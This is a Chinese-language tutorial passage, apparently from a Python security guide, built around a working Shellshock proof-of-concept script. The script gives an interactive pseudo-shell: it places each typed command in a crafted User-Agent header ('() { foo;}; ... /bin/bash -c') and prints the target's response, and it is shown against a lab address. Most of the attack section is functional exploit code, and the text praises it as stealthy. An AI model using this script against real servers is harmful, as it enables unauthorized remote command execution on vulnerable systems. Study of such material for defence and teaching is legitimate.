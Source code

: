 下面这段Python写的Poc的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情.
这个Poc执行后就和系统的命令终端一样,不过这个Poc它的目的却与系统的不同.这个Poc会修改浏览器的User-Agent
信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过raw_input获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到
如何去完成一个HTTP请求以及如何修改User-Agent的内容：

```
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块
 
if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)
 
URL=sys.argv[1]        # 把测试的URL输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"
 
while True:        # 通过raw_input来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的User-Agent包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
下面的图片是这个脚本执行后的截图,正在测试ip地址为http://192.168.56.101
的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的．
大家其实可以看到这个脚本只是对测试系统发送了一个HTTP请求.其他的什么也没有
做.不过最后一张图展示了具体的细节部分:

![shell1][1]

![shell2][2]

[1]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/img/0x131.png
[2]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/img/0x132.png
